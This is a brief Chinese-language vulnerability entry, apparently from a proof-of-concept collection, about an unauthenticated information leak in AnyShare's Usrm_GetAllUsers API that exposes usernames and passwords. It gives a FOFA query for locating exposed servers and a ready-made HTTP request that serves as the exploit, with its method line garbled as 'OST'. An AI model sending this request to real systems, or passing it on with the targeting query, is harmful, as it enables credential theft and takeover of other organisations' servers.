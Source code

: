 # 爱数AnyShare智能内容管理平台Usrm_GetAllUsers信息泄露漏洞

爱数 AnyShare智能内容管理平台 Usrm_GetAllUsers 接口存在信息泄露漏洞，未经身份认证的攻击者可获取用户名密码等敏感信息。可登录后台，使系统处于极不安全状态。

## fofa

```javascript
app="AISHU-AnyShare"
```

## poc

```javascript
OST /api/ShareMgnt/Usrm_GetAllUsers HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

[1,100]
```

![image-20241108205715836](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411082057919.png)